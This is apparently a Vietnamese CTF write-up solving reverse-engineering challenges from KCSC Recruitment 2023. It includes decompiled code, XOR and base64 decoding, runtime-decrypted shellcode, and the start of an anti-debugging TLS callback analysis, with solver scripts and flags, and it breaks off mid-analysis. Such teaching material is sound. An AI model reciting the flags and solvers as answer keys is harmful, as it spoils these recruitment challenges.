



:vietnam: Solutions for some challenges in KCSC Recruitment 2023

<!--more-->

# KCSC Recruitment 2023

## rev/Real Warmup


* 28 solves / 100 pts
* **Given files:** [chall.exe](https://wru-my.sharepoint.com/:u:/g/personal/2251272678_e_tlu_edu_vn/EcXjLpKa0z5HqaVRynlslY8BwqxA8IryjLRQxBmlcfjj5g?e=LZRydh)
* **Description:** Làm nóng người 1 tí\
Flag format: **`KCSC{}`**


**Solution**

Mở file trong IDA64, chương trình cho phép người dùng nhập vào và so sánh với một chuỗi cho trước. 

```python
int __fastcall main(int argc, const char **argv, const char **envp)
{
    char Str1[256]; // [rsp+20h] [rbp-60h] BYREF

    _main(argc, argv, envp);
    puts("Nh4p. v40` f149 v4` nh4n' [3N73R]");
    while ( 1 )
    {
        if ( !gets(Str1) )
        {
            return 0;
        }

        if ( !strcmp(Str1, "S0NTQ3tDaDQwYF9NfF98bjlgX0QzTidfVjAxJ183N1wvX0tDU0N9") )
        {
            break;
        }

        puts("Sai roi. Hay thu lai");
    }

    return printf("Great!!!");
}
```

Chuỗi này khả năng cao bị mã hóa base64. Lên [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=UzBOVFEzdERhRFF3WUY5TmZGOThiamxnWDBRelRpZGZWakF4SjE4M04xd3ZYMHREVTBOOQ) decode và thu được flag **`KCSC{Ch40_M|_|n9_D3N'_V01'_77\/_KCSC}`**

## rev/Images


* 3 solves / 484 pts
* **Given files:** [Images.zip](https://wru-my.sharepoint.com/:u:/g/personal/2251272678_e_tlu_edu_vn/EUv27tElKYFNkTHz4-MwShgBt8gKdfYfhIYytovddCz7RQ?e=fFLSDm)
* **Description:** It doesnt hard as u expected ^^


**Solution**

Bài này cho chúng ta một loạt hình ảnh chứa mã assembly. Sau khi đọc sơ qua, mình thấy đoạn code với format như dưới đây được lặp đi lặp lại 

```nasm
mov eax, 1
imul rax, 8
movsx eax, [rbp+rax+230h+Buffer]
cmp eax, 95
jnz loc_140012834
```

trong đó  **`loc_140012834`** là đoạn mã in ra kết quả sai. Điều kiện kiểm tra có thể được mô phỏng lại như sau
```python
Buffer[1 * 8] == 95
``` 

Lấy tất cả các giá trị như trên và convert sang ký tự, ta thu được flag **``KCSC{Cam_on_vi_da_kien_nhan_nhin_het_dong_anh_nay`}``**

```python
flag = [0] * 54 

flag[0] = 75
flag[0x1a] = 110
flag[14] = 101
flag[18] = 104
flag[34] = 101
flag[23] = 110
flag[18] = 107
flag[21] = 110
flag[22] = 95
flag[9] = 111
flag[5] = 67
flag[8] = 95
flag[10] = 110
flag[14] = 95
flag[12] = 118
flag[16] = 97
flag[3] = 67
flag[30] = 105
flag[48] = 121
flag[41] = 95
flag[44] = 104
flag[39] = 110
flag[7] = 109
flag[28] = 110
flag[29] = 104
flag[15] = 100
flag[38] = 111
flag[42] = 97
flag[46] = 110
flag[37] = 100
flag[33] = 104
flag[32] = 95
flag[36] = 95
flag[31] = 110
flag[25] = 97
flag[27] = 95
flag[35] = 116
flag[45] = 95
flag[19] = 105
flag[40] = 103
flag[43] = 110
flag[47] = 97
flag[17] = 95
flag[49] = 96
flag[50] = 125
flag[4] = 123
flag[13] = 105
flag[11] = 95
flag[6] = 97
flag[2] = 83
flag[1] = 67
flag[20] = 101
flag[24] = 104

print("".join([chr(i) for i in flag]))
```

## rev/Awg Mah Back


* 9 solves / 244 pts
* **Given files:** 
  * [output.txt](https://wru-my.sharepoint.com/:t:/g/personal/2251272678_e_tlu_edu_vn/EYI8SrfAH95GgnP_bTvmdPsB8nFCtAb1Db0uPga6GFSsJA?e=Zcy3Ut)
  * [src.py](https://wru-my.sharepoint.com/:u:/g/personal/2251272678_e_tlu_edu_vn/EchJO5YZqkdCtKlyLtBgS4sBd2Og6jVC2xRCgLznmfnb_Q?e=NlU4J3)
* **Description:** xor, xor nữa, xor mãi\
Flag format: **`KCSC{}`**


**Solution**

Chương trình chia **`flag`** thành 3 phần và thực hiện xor giữa các phần với nhau. 

```python
from pwn import *

with open('flag.txt', 'rb') as (f):
    flag = f.read()
a = flag[0:len(flag) // 3]
b = flag[len(flag) // 3:2 * len(flag) // 3]
c = flag[2 * len(flag) // 3:]
a = xor(a, int(str(len(flag))[0]) + int(str(len(flag))[1]))
b = xor(a, b)
c = xor(b, c)
a = xor(c, a)
b = xor(a, b)
c = xor(b, c)
c = xor(c, int(str(len(flag))[0]) * int(str(len(flag))[1]))
enc = a + b + c
with open('output.txt', 'wb') as (f):
    f.write(enc)
```

Vì tính chất đối xứng và hoán vị của phép xor:

- $A \oplus B = C \to A = C \oplus B$
- $A \oplus B = B \oplus A$

ta có thể đặt ngược file **`output.txt`** thành **`flag.txt`** và thực hiện ngược lại các bước mã hóa. 

```python
from pwn import *

with open('output.txt', 'rb') as (f):
    flag = f.read()
a = flag[0:len(flag) // 3]
b = flag[len(flag) // 3:2 * len(flag) // 3]
c = flag[2 * len(flag) // 3:]

c = xor(c, int(str(len(flag))[0]) * int(str(len(flag))[1]))
c = xor(b, c)
b = xor(a, b)
a = xor(c, a)
c = xor(b, c)
b = xor(a, b)
a = xor(a, int(str(len(flag))[0]) + int(str(len(flag))[1]))
enc = a + b + c
with open('flag.txt', 'wb') as (f):
    f.write(enc)
```

Sau khi chạy đoạn script trên, ta thu được output là **`VXpCT1ZGRXpjelJPUjA1TVdETlJkMWd3U21oUk1IUm1Wa2M1WmxGcVVtcGhNVGxaVFVoS1oxaDZVblZTUmpnMFRtcFNabUl3TUhwYWVsSk5aRlY0T1E9PQ==`** 

Dễ thấy có kí tự **`==`**, ta sẽ decode base64 nhiều lần trên [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)From_Base64('A-Za-z0-9%2B/%3D',true,false)From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=VlhwQ1QxWkdSWHBqZWxKUFVqQTFUVmRFVGxKa01XZDNVMjFvVWsxSVVtMVdhMk0xV214R2NWVnRjR2hOVkd4YVZGVm9TMW94YURaVmJsWlRVbXBuTUZSdGNGTmFiVWwzVFVod1lXVnNTazVhUmxZMFQxRTlQUT09) và có được flag **``KCSC{84cK_t0_BaCK_To_B4ck_X0r`_4nD_864_oM3g4LuL}``**

## rev/hide and seek


* 12 solves / 100 pts
* **Given files:** [rev_hide_and_seek.rar](https://wru-my.sharepoint.com/:u:/g/personal/2251272678_e_tlu_edu_vn/EZSSBRfU3Q1Bh06Xm0pnlWgBU4zysM7KLJMrDI3PcsSMJg?e=Z6Ipv5)
* **Description:** I hid a little surprise for you somewhere in your computer. Let's see if you can find it!


**Solution**

Sau khi chạy thử file đề bài cho, mình có select 2 dòng màu xanh thì thấy có dòng text mờ 

**`C:\Users\Pwn2Own\AppData\Local\Temp\.temp_html_file_90865953.html`** 


Vào folder trên và tìm sẽ có được flag. 


Mình muốn tìm hiểu xem thực sự chương trình này đang hoạt động như nào. Decompile bằng IDA64, xem qua lần lượt các hàm, ta biết được output ở trên được in ra từ hàm **`sub_E5FCD0`**

Trong đó, đoạn in ra filepath như sau 

```c
SetConsoleTextAttribute(hConsoleOutput, 0x11u); // white color
filePath = &szCUsersPwn2Own;
v15 = (char *)&szCUsersPwn2Own;
v14 = &szCUsersPwn2Own + 0x100;
while ( v15 != (char *)v14 )
{
    v13 = *v15;
    sub_E511F4(std::cout, v13);
    Sleep(0x32u);
    v15 += 2;
}
```

Tới đây, mình có thể lấy được filepath và truy cập để lấy flag. 

Câu hỏi đặt ra là filepath được tạo ra như thế nào và file html kia ở đâu. Quay trở về hàm **`main`**, ta sẽ đi phân tích chi tiết 2 hàm: 

1. Hàm **`sub_E5151E`** 
2. Hàm **`sub_E518A7`**

```c
int __cdecl main_0(int argc, const char **argv, const char **envp)
{
    int v3; // eax
    HMODULE v5; // eax
    int v6; // eax

    __CheckForDebuggerJustMyCode(&unk_E6A037);
    if ( (unsigned __int8)sub_E5151E() )
    {
        v5 = (HMODULE)((int (*)(void))off_E5149C)();
        if ( sub_E518A7(v5, (LPCWSTR)0x3EA, (LPCWSTR)0x3E9) )
        {
            sub_E5148D();
            return 0;
        }
        else
        {
            v6 = sub_E513C0(std::cerr, "Stage 2 failed");
            std::ostream::operator<<(v6, sub_E51064);
            return 1;
        }
    }
    else
    {
        v3 = sub_E513C0(std::cerr, "Stage 1 failed");
        std::ostream::operator<<(v3, sub_E51064);
        return 1;
    }
}
```

### Phân tích hàm `sub_E5151E`

Nhìn tổng quan, ta biết được hàm này thực hiện việc tạo filepath. 

```c
char sub_E588A0()
{
    int v1; // eax
    ULONGLONG TickCount64; // rax
    unsigned int v3; // [esp+190h] [ebp-220h]
    int (__stdcall *GetTempPathW)(int, char *); // [esp+19Ch] [ebp-214h]
    char v5[516]; // [esp+1A8h] [ebp-208h] BYREF

    __CheckForDebuggerJustMyCode(&unk_E6A037);
    GetTempPathW = (int (__stdcall *)(int, char *))sub_E516E5("kernel32", 0xCCD7EB77, 0x5EA58);
    if ( !GetTempPathW )
    {
        return 0;
    }

    v3 = GetTempPathW(256, v5);
    if ( v3 <= 0x100 && v3 )
    {
        TickCount64 = GetTickCount64();
        wsprintfW(filePath, "%", v5, TickCount64);
        return 1;
    }
    else
    {
        v1 = sub_E513C0(std::cerr, "Failed to get folder path");
        std::ostream::operator<<(v1, sub_E51064);
        return 0;
    }
}
```

Đầu tiên, hàm **`sub_E516E5`** sẽ tìm trong kernel32 đâu là địa chỉ của hàm **`getTempPath`**. Khi search các đối số sẽ không có kết quả, mình debug và đọc kết quả của hàm trả về mới biết được tên hàm là gì. 

```c
GetTempPathW = (int (__stdcall *)(int, char *))sub_E516E5("kernel32", 0xCCD7EB77, 0x5EA58);
if ( !GetTempPathW )
{
    return 0;
}
```

Tiếp theo, chương trình tạo filepath bởi hàm `wsprintfW` với cấu trúc 

filepath = tempPath + chuỗi `temp_html_file` +  tickcount + `.html` 

```c
tempPathLength = getTempPath(256, tempPath);
if ( tempPathLength <= 256 && tempPathLength )
{
    TickCount64 = GetTickCount64();
    wsprintfW(filePath, "%", tempPath, TickCount64);
    return 1;
}
else
{
    v1 = sub_E513C0(std::cerr, "Failed to get folder path");
    std::ostream::operator<<(v1, sub_E51064);
    return 0;
}
```

### Phân tích hàm **`sub_E518A7`**

Hàm thực hiện chức năng tạo file, trong đó **`lpFileName = filePath`**

```c
hFile = CreateFileW(lpFileName, 0x40000000u, 0, 0, 2u, 0x80u, 0);
```

Sau khi tạo thành công, nó sẽ viết nội dung ở **`lpBuffer`** vào file 

```c
WriteFile(hFile, lpBuffer, nNumberOfBytesToWrite, &NumberOfBytesWritten, 0)
```

Đặt breakpoint tại đây và ta xem được nội dung của file vừa tạo. 



Trong đó có một đoạn code js để in ra flag **`KCSC{~(^._.)=^._.^=(._.^)~}`**

```javascript
function showFlag() {
    var flagArray = [30, 22, 6, 22, 46, 43, 125, 11, 123, 10, 123, 124, 104, 11, 123, 10, 123, 11, 104, 125, 123, 10, 123, 11, 124, 43, 40];
    var flag = '';
    for (var i = 0; i < flagArray.length; i++) {
        flag += String.fromCharCode(flagArray[i] ^ 0x55);
    }
    alert(flag);
}
```

## rev/dynamic function


* 2 solves / 496 pts / by sonx
* **Given files:** [rev_dynamic_function.rar](https://wru-my.sharepoint.com/:u:/g/personal/2251272678_e_tlu_edu_vn/ETVhfCJRyjVIvM5yXMjStCIBPyIrWi8w6G4oQBTK6HfN1g?e=VrmuZg)
* **Description:** Unless I am in motion, I remain invisible.


**Solution**

Decompile file exe bằng IDA64, sau khi đổi tên các hàm, các biến, chúng ta thu được hàm **`main`** như sau 

```c
int __cdecl main_0(int argc, const char **argv, const char **envp)
{
    FILE *v3; // eax
    size_t subInputLength; // eax
    char v6; // [esp+0h] [ebp-14Ch]
    char v7; // [esp+0h] [ebp-14Ch]
    size_t v8; // [esp+10h] [ebp-13Ch]
    size_t j; // [esp+DCh] [ebp-70h]
    unsigned int i; // [esp+E8h] [ebp-64h]
    void (__cdecl *lpAddress)(char *, char *, size_t); // [esp+F4h] [ebp-58h]
    char *output; // [esp+10Ch] [ebp-40h]
    char *subInput; // [esp+118h] [ebp-34h]
    char input[36]; // [esp+124h] [ebp-28h] BYREF

    __CheckForDebuggerJustMyCode(&unk_D5C017);
    j_memset(input, 0, 0x20u);
    malloc(0x19u);
    output = (char *)malloc(0x19u);
    printf("Show your skills. What is the flag?\n", v6);
    v3 = _acrt_iob_func(0);
    fgets(input, 0x20, v3);
    if ( input[strlen1(input) - 1] == 0xA )
    {
        v8 = strlen1(input) - 1;
        if ( v8 >= 0x20 )
        {
            j____report_rangecheckfailure();
        }

        input[v8] = 0;
    }

    if ( strlen1(input) == 30 && (subInput = (char *)splitInput(input)) != 0 && strlen1(subInput) == 24 )
    {
        lpAddress = (void (__cdecl *)(char *, char *, size_t))VirtualAlloc(0, 0xA4u, 0x1000u, 0x40u);
        if ( lpAddress )
        {
            for ( i = 0; i < 0xA4; ++i )
            {
                *((_BYTE *)lpAddress + i) = byte_D57C50[i] ^ 0x41;
            }

            subInputLength = strlen1(subInput);
            lpAddress(subInput, output, subInputLength);
            VirtualFree(lpAddress, 0xA4u, 0x8000u);
            for ( j = 0; j < strlen1(subInput); ++j )
            {
                if ( output[j] != expectedOutput[j] )
                {
                    goto labelFail;
                }
            }

            printf("Not uncorrect ^_^", v7);
            return 0;
        }
        else
        {
            perror("VirtualAlloc failed");
            return 1;
        }
    }
    else
    {
labelFail:
        printf("Not correct @_@", v7);
        return 0;
    }
}
```

Tóm tắt chương trình trên: 

1. Cho người dùng nhập vào **`input`** từ bàn phím. Đổi byte cuối cùng **`\n`**  (khi nhấn enter) thành byte kết thúc chuỗi **`\x00`**.  
2. So sánh độ dài chuỗi **`input`** với 30. Đi vào hàm **`splitInput`,** chương trình kiểm tra **`input`** có bắt đầu bằng chuỗi **`KCSC{`** và kết thúc bằng **`}`** hay không. Kết thúc hàm, chúng ta thu được **`output`** có độ dài 24 byte chính là phần ở giữa của chuỗi bắt đầu và kết thúc.
    
    ```c
    char *__cdecl sub_D51890(char *Str)
    {
        char *Destination; // [esp+D0h] [ebp-2Ch]
        char *v3; // [esp+E8h] [ebp-14h]
        char *Source; // [esp+F4h] [ebp-8h]
        char *Sourcea; // [esp+F4h] [ebp-8h]
    
        __CheckForDebuggerJustMyCode(&unk_D5C017);
        Source = j_strstr(Str, "KCSC{");
        if ( Source )
        {
            Sourcea = &Source[strlen1("KCSC{")];
            v3 = j_strchr(Sourcea, '}');
            if ( v3 )
            {
                Destination = (char *)malloc(v3 - Sourcea + 1);
                if ( !strncpy_s(Destination, v3 - Sourcea + 1, Sourcea, v3 - Sourcea) )
                {
                    return Destination;
                }
    
                free(Destination);
            }
        }
    
        return 0;
    }
    ```
    
3. Hàm **`VirtualAlloc`** phân bổ một vùng nhớ mới với 4 đối số như sau: 
    1. 0: Hàm tự động chọn địa chỉ cho vùng nhớ
    2. 0xA4u: Kích thước của vùng nhớ
    3. 0x1000u: **`MEM_COMMIT`**, đặt quyền truy cập cho vùng nhớ
    4. 0x40u: **`PAGE_EXECUTE_READWRITE`**, đặt quyền đọc ghi, thực thi cho vùng nhớ 
    
    > Đọc thêm thông tin ở  https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc
    
    Hàm sẽ trả về là địa chỉ của vùng nhớ mới, được lưu trong biến **`lpAddress`**
    
4. Chương trình ghi lần lượt các byte vào vùng nhớ mới 
    
    ```c
    for ( i = 0; i < 0xA4; ++i )
    {
            *((_BYTE *)lpAddress + i) = byte_D57C50[i] ^ 0x41;
    }
    ```
    
5. Tiếp theo, chương trình sẽ thực hiện các lệnh trong vùng nhớ mới. Sau khi kết thúc việc gọi hàm, ta sẽ thu được **`output`**
    
    ```c
    lpAddress(subInput, output, subInputLength);
    ```
    
6. So sánh **`output`** với chuỗi byte **`expectedOutput`** cho trước
    
    ```c
    for ( j = 0; j < strlen1(subInput); ++j )
    {
        if ( output[j] != expectedOutput[j] )
        {
            goto labelFail;
        }
    }
    ```
    
Sau bản tóm tắt trên, mấu chốt của bài toán nằm ở đoạn code gọi hàm động **`lpAddress`**. Chúng ta cần phải biết nó thực sự đã làm gì với **`input`** ban đầu. 

Đặt breakpoint tại dòng 44, ấn F7 tại **`text:00D558BD`** để đi sâu vào từng câu lệnh. Input ban đầu chúng ta nhập sẽ là **`KCSC{aaaaaaaaaaaaaaaaaaaaaaaa}`**

```nasm
.text:00D558BD                 call    [ebp+lpAddress]
```

Đây là một phần mã assembly của hàm **`lpAddress`**


Ta có thể click chuột phải, chọn chức năng **`Create function (phím P)`**, và thu được hàm như sau 

```c
int __cdecl sub_DF0000(int a1, int a2, int a3)
{
    _WORD v4[15]; // [esp+2h] [ebp-1Eh] BYREF

    strcpy((char *)v4, "reversing_is_pretty_cool");
    *(_DWORD *)&v4[0xD] = 0;
    while ( *(int *)&v4[0xD] < a3 )
    {
        HIBYTE(v4[0xC]) = 0x10 * (*(char *)(*(_DWORD *)&v4[0xD] + a1) % 0x10)
                        + *(char *)(*(_DWORD *)&v4[0xD] + a1) / 0x10;
        *(_BYTE *)(a2 + *(_DWORD *)&v4[0xD]) = HIBYTE(v4[0xC]) ^ *((_BYTE *)v4 + *(_DWORD *)&v4[0xD]);
        ++*(_DWORD *)&v4[0xD];
    }

    return 0;
}
```

Ta cần sửa lại kiểu dữ liệu của một số biến cho dễ đọc hơn. Ấn **`y`** vào tên hàm để định nghĩa lại các tham số của hàm. 


Đổi lại tên, kiểu dữ liệu và kích thước cho mảng **`v4`**


> Mình biết mảng **`buf`** có size 25 bởi vì nó strcpy chuỗi "reversing_is_pretty_cool" có size 25 vào **`buf`**.

Đến đây, ta đã thu được một hàm nhìn code rất đẹp

```c
int __cdecl sub_DF0000(char *subInput, char *output, int subInputLength)
{
    char buf[25]; // [esp+2h] [ebp-1Eh] BYREF
    char tmp; // [esp+1Bh] [ebp-5h]
    int i; // [esp+1Ch] [ebp-4h]

    strcpy(buf, "reversing_is_pretty_cool");
    for ( i = 0; i < subInputLength; ++i )
    {
        tmp = 16 * (subInput[i] % 16) + subInput[i] / 16;
        output[i] = tmp ^ buf[i];
    }

    return 0;
}
```

Đoạn encrypt trên rất ngắn gọn, swap 4 bit trước với 4 bit sau của 1 byte. Ví dụ **`0x61`** → **`0x16`**

Tiếp theo sẽ xor kết quả trên với mảng **`buf`** rồi đi so sánh với **`expectedOutput`**. Chúng ta dễ dàng viết được code giải mã và thu được flag **`KCSC{correct_flag!submit_now!}`**

```python
buf = [0x72, 0x65, 0x76, 0x65, 0x72, 0x73, 0x69, 0x6E, 0x67, 0x5F, 0x69, 0x73, 0x5F, 0x70, 0x72, 0x65, 0x74, 0x74, 0x79, 0x5F, 0x63, 0x6F, 0x6F, 0x6C]
expectedOutput = [0x44, 0x93, 0x51, 0x42, 0x24, 0x45, 0x2E, 0x9B, 0x01, 0x99, 0x7F, 0x05, 0x4D, 0x47, 0x25, 0x43, 0xA2, 0xE2, 0x3E, 0xAA, 0x85, 0x99, 0x18, 0x7E]

flag = "KCSC{"
for i in range(len(buf)):
    res = expectedOutput[i] ^ buf[i]
    swapRes = ((res & 0x0F) << 4) | ((res & 0xF0) >> 4)
    flag += chr(swapRes)
flag += "}"

print(flag)
```

## rev/two-faces


* 0 solve / 500 pts / by sonx
* **Given files:** [rev_two_faces.rar](https://wru-my.sharepoint.com/:f:/g/personal/2251272678_e_tlu_edu_vn/EsSV4QVyTopIl_6UT65as80B4l8qKmfDx9c_ydgtqJYA9g?e=rEZ5wF)
* **Description:** Don’t judge a book by its cover.


**Solution**

Decompile file đề bài cho bằng IDA64, chúng ta có được hàm `main` đã đổi một số tên hàm, tên biến để dễ đọc như sau

```c
int __cdecl main_0(int argc, const char **argv, const char **envp)
{
    FILE *v3; // eax
    char v5; // [esp+0h] [ebp-164h]
    char v6; // [esp+0h] [ebp-164h]
    size_t v7; // [esp+10h] [ebp-154h]
    int round; // [esp+DCh] [ebp-88h]
    int k; // [esp+E8h] [ebp-7Ch]
    int j; // [esp+F4h] [ebp-70h]
    int i; // [esp+100h] [ebp-64h]
    _DWORD *Block; // [esp+10Ch] [ebp-58h]
    char *subInput; // [esp+130h] [ebp-34h]
    char input[36]; // [esp+13Ch] [ebp-28h] BYREF

    __CheckForDebuggerJustMyCode(&unk_FDD015);
    Block = malloc(16u);
    for ( i = 0; i < 4; ++i )
    {
        Block[i] = malloc(4u);
    }

    j_memset(input, 0, 0x20u);
    printf("Show your skills. What is the flag?\n", v5);
    v3 = _acrt_iob_func(0);
    fgets(input, 0x20, v3);
    if ( input[strlen1(input) - 1] == 0xA )
    {
        v7 = strlen1(input) - 1;
        if ( v7 >= 0x20 )
        {
            j____report_rangecheckfailure();
        }

        input[v7] = 0;
    }

    if ( strlen1(input) != 22 )
    {
        goto labelFail;
    }

    subInput = (char *)splitInput(input);
    if ( !subInput )
    {
        goto labelFail;
    }

    if ( strlen1(subInput) != 0x10 )
    {
        goto labelFail;
    }

    for ( j = 0; j < 4; ++j )
    {
        for ( k = 0; k < 4; ++k )
        {
            *(_BYTE *)(Block[j] + k) = subInput[4 * j + k];
        }
    }

    for ( round = 0; round < 100; ++round )
    {
        encrypt1((int)Block, 4, 4);
        encrypt2((int)Block, 4, 4u);
        encrypt3(Block, 4, 4);
        encrypt4((int)Block, 4, 4, round + 0x55);
    }

    if ( j_checkFlag((char *)Block, 4, 4) )
    {
        printf("Good. Nice work", v6);
        free(Block);
        return 0;
    }
    else
    {
labelFail:
        printf("Wrong flag! You chicken", v6);
        free(Block);
        return 0;
    }
}
```

Luồng hoạt động chính của chương trình sẽ diễn ra như sau: 

1. Cấp phát động cho **`Block`** có kích thước 16 byte. Với mỗi **`Block[i]`** lại được tiếp tục cấp phát 4 byte. Mục đích sẽ là tạo một mảng 2 chiều, có kích thước 4x4
    
    ```c
    Block = malloc(16u);
    for ( i = 0; i < 4; ++i )
    {
          Block[i] = malloc(4u);
    } 
    ```
    
2. Kiểm tra độ dài **`input`** dài 22 bytes, bắt đầu **`KCSC{`**, kết thúc bằng **`}`**. 
3. Chia **`input`** thành từng phần rồi cho vào mảng **`Block`**
    
    ```c
    for ( j = 0; j < 4; ++j )
    {
            for ( k = 0; k < 4; ++k )
            {
                *(_BYTE *)(Block[j] + k) = subInput[4 * j + k];
            }
    }
    ```
    
4. Duyệt 100 lần, mỗi lần `Block` sẽ được encrypt bởi 4 hàm mã hóa 
    
    ```c
    for ( round = 0; round < 100; ++round )
    {
            encrypt1((int)Block, 4, 4);
            encrypt2((int)Block, 4, 4u);
            encrypt3(Block, 4, 4);
            encrypt4((int)Block, 4, 4, round + 0x55);
    }
    ```
    
    Sau khi debug rồi quan sát output, ta sẽ biết được chức năng của các hàm như sau 
    
    - **`encrypt1`** xoay các hàng theo thứ tự từ phải sang trái với số lần là 0, 1, 2, 3.
        
        
    - **`encrypt2`** xoay các cột theo thứ tự từ dưới lên trên với số lần là 0, 1, 2, 3
        
        
    - **`encrypt3`** đổi 4 bit đầu và cuối của 1 byte. Ví dụ **`0x61`** → **`0x16`**
    - **`encrypt4`** xor với (i + 0x55) với i chạy từ 0 → 99, tương ứng với index của từng round.
5. Sau 100 round encrypt ở trên, **`Block`** thu được sẽ đem đi so sánh với chuỗi **`FDA6FF91ADA0FDB7ABA9FB91EFAFFAA2`**

Mấu chốt để giải bài này nằm ở việc phải đi viết lại 4 hàm decrypt ở trên. Đây là code giải mã của mình cho 4 hàm phía trên. 

```python
def unShiftRow(blk):
    blk[0] = blk[0][0 : ] + blk[0][ : 0]
    blk[1] = blk[1][3 : ] + blk[1][ : 3]
    blk[2] = blk[2][2 : ] + blk[2][ : 2]
    blk[3] = blk[3][1 : ] + blk[3][ : 1]
    return blk

def unShiftCol(blk):
    cols = []
    unshifted_col = [[0, 0, 0, 0], [0, 0, 0, 0], [0, 0, 0, 0], [0, 0, 0, 0]]

    # get col
    for col in range(4):
        cols.append([blk[row][col] for row in range(4)])

    # unshifted col
    unshifted_col[0] = cols[0][0 : ] + cols[0][ : 0]
    unshifted_col[1] = cols[1][3 : ] + cols[1][ : 3]
    unshifted_col[2] = cols[2][2 : ] + cols[2][ : 2]
    unshifted_col[3] = cols[3][1 : ] + cols[3][ : 1]

    for i in range(4):
        for j in range(4):
            blk[i][j] = unshifted_col[j][i]
    return blk

def unSwapBit(blk):
    for i in range(4):
        for j in range(4):
            blk[i][j] = ((blk[i][j] & 0x0F) << 4) | ((blk[i][j] & 0xF0) >> 4)
    return blk 

def unXor(blk, round): 
    for i in range(4):
        for j in range(4):
            blk[i][j] ^= (round + 0x55)

def main():
    res = "FDA6FF91ADA0FDB7ABA9FB91EFAFFAA2" 

    elements = [int(res[i : i+2], 16) for i in range(0, len(res), 2)]
    block = [elements[i : i+4] for i in range(0, len(elements), 4)]

    round = 99
    while(round >= 0):
        unXor(block, round)
        unSwapBit(block)
        unShiftCol(block)
        unShiftRow(block)

        round -= 1

    flag = "KCSC{"
    for i in range(4):
        for j in range(4):
            flag += chr(block[i][j])
    flag += "}"
    print(flag)

if __name__ == "__main__":
    main()
# KCSC{3a5y_ch41leng3_!}
```

Mình thử chạy lại chương trình với flag thu được ở trên nhưng kết quả sai.

Sau khi trace lại từ đâu, ta thấy được có một hàm tên là **`TlsCallback_0_0`** được chạy trước cả hàm **`main`**

```c
void *__stdcall TlsCallback_0_0(int a1, int a2, int a3)
{
    void *result; // eax
    char v4; // [esp+D4h] [ebp-4Ch] BYREF
    char v5[15]; // [esp+D5h] [ebp-4Bh] BYREF
    int Src[3]; // [esp+E4h] [ebp-3Ch] BYREF
    bool v7; // [esp+F3h] [ebp-2Dh]
    SIZE_T dwSize; // [esp+FCh] [ebp-24h]
    DWORD flOldProtect[3]; // [esp+108h] [ebp-18h] BYREF
    LPVOID lpAddress; // [esp+114h] [ebp-Ch]

    __CheckForDebuggerJustMyCode(&unk_FDD015);
    result = (void *)IsDebuggerPresent();
    if ( !result )
    {
